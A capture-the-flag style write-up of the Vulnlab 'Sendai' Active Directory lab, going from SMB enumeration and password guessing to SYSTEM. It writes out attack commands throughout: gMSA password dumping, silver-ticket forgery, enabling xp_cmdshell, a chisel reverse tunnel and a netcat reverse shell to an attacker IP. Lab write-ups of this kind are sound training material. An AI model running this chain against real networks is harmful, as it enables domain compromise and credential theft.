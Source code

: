 ```yaml
---
title: Vulnlab Standalone - Sendai
date: 2024-03-21
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standlone - Sendai
![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share I found a txt file mentioning that a penetration test discovered numerous weak passwords and recommending changes as soon as possible. Also in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
```
I saved the usernames to a file called users.txt and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user lisa.williams:
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'
We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```

# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called '.sqlconfig' which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```
cmd /c C:\temp\chisel.exe client [ATTACKER]:8001 R:1080:socks
```
On the attacker machine:
```
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash [REDACTED] -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```
